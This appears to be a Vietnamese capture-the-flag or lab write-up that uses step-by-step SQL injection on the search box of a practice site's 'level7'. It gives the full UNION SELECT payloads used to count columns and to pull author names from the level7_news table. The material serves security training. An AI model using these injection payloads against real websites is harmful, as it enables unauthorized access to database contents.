

## Người thực hiện: Trần Ngọc Nam
## Thời gian thực hiện: 8/5/2022

- Ta thử tìm kiếm với dữ liệu bất kì như <code>alo</code>. Thì trang web không trả về bất kì kết quả nào.
  
  

- Ta thử tìm kiếm với <code>alo'</code>
  
  

- Lúc này, ta nhận thấy ngoài bảng <code>level7_news</code> đã được gợi ý, còn có bảng <code>level7_texts</code> xuất hiện.
- Ta sẽ thử tấn công union để tìm số cột với <code>alo%') UNION SELECT 1,2,3,4,5 FROM level7_news news, level7_texts text where ('%'='</code>
  
  

- Kết quả trả về số cột sai. Nên ta sẽ giảm số cột xuống. Và khi số cột là 4 đã xuất hiện 2 cột dễ tổn thương là 3 và 4 <code>alo%') UNION SELECT 1,2,3,4 FROM level7_news news, level7_texts text where ('%'='</code>.
  
  

- Ta sẽ thử lấy thông tin từ cột 4 với <code>alo%') union select 1,2,3,news.autor FROM level7_news news, level7_texts text where ('%'='</code>
  
  

- Ta thử check từng user hiện xuất hiện và thành công với user <code>TestUserforg00gle</code>
  
  